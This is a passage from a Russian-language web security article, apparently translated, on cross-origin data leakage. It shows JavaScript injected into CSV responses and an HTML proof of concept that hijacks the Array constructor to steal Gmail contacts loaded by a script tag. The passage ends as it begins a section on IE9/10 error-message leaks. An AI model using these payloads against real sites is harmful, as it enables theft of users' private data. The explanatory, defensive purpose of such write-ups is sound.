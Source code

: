 ```http
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: xxxx

1,"___","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"___","zzz@example.com","03-0000-0099"
```

В этом примере столбцы `___`  в качестве точек для инъекции и вставка кода JavaScript вместо них приводит к следующему результату.

```text
1,"\"",$$$=function(){/*","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"*/}//","zzz@example.com","03-0000-0099"
```

[Jeremiah Grossman писал об аналогичной уязвимости в Gmail](https://blog.jeremiahgrossman.com/2006/01/advanced-web-attack-techniques-using.html) в 2006 году, которая позволяла извлекать контакты пользователей в формате JSON. В этом случае данные были получены из Gmail и распарсены  движком JavaScript браузера с помощью конструктора массива без ссылок. Злоумышленник может получить доступ к этому массиву с чувствительными данными, определив и перезаписав внутренний конструктор массива следующим образом:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Утечка контактов gmail через JSON</title>
  </head>
  <body>
    <script>
      function Array() {
        // крадём данные
      }
    </script>
    <script src="http://mail.google.com/mail/?_url_scrubbed_"></script>
  </body>
</html>
```

### 4. Утечка чувствительных данных из-за ошибок во время выполнения JavaScript

Браузеры обычно выводят стандартизированные [сообщения об ошибках JavaScript](https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Errors). Однако в случае IE9/10 сообщения об ошибках во время выполнения содержали дополнительные сведения, которые могли быть использованы для утечки данных. Например, сайт `victim.com` предоставляет следующий контент по URL`http://victim.com/service/csvendpoint` для аутентифицированных пользователей:
